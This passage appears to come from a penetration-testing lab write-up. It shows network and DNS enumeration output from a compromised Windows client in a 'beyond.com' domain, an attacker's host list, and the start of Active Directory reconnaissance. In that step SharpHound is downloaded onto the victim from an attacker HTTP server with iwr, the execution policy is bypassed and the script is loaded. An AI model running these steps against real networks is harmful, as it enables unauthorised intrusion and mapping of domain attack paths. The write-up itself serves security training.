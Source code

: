 {% code overflow="wrap" %}
```powershell
����������͹ Network Ifaces and known hosts
� The masks are only for the IPv4 addresses 
    Ethernet0[00:50:56:8A:0F:27]: 172.16.6.243 / 255.255.255.0
        Gateways: 172.16.6.254
        DNSs: 172.16.6.240
        Known hosts:
          169.254.255.255       00-00-00-00-00-00     Invalid
          172.16.6.240          00-50-56-8A-08-34     Dynamic
          172.16.6.254          00-50-56-8A-DA-71     Dynamic
          172.16.6.255          FF-FF-FF-FF-FF-FF     Static
...

����������͹ DNS cached --limit 70--
    Entry                                 Name                                  Data
dcsrv1.beyond.com                     DCSRV1.beyond.com                     172.16.6.240
    mailsrv1.beyond.com                   mailsrv1.beyond.com                   172.16.6.254
```
{% endcode %}

```bash
kali@kali:~/beyond$ cat computer.txt                                        
172.16.6.240 - DCSRV1.BEYOND.COM
-> Domain Controller

172.16.6.254 - MAILSRV1.BEYOND.COM
-> Mail Server
-> Dual Homed Host (External IP: 192.168.50.242)

172.16.6.243 - CLIENTWK1.BEYOND.COM
-> User _marcus_ fetches emails on this machine
```

No privilege escalation vector found, moving on to enumerating the AD environment and its objects.

Starting with SharpHound:

```bash
kali@kali:~/beyond$ cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .
```

{% code overflow="wrap" %}
```powershell
PS C:\Users\marcus> iwr -uri http://192.168.119.5:8000/SharpHound.ps1 -Outfile SharpHound.ps1
iwr -uri http://192.168.119.5:8000/SharpHound.ps1 -Outfile SharpHound.ps1

PS C:\Users\marcus> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\marcus> . .\SharpHound.ps1
. .\SharpHound.ps1
```
{% endcode %}
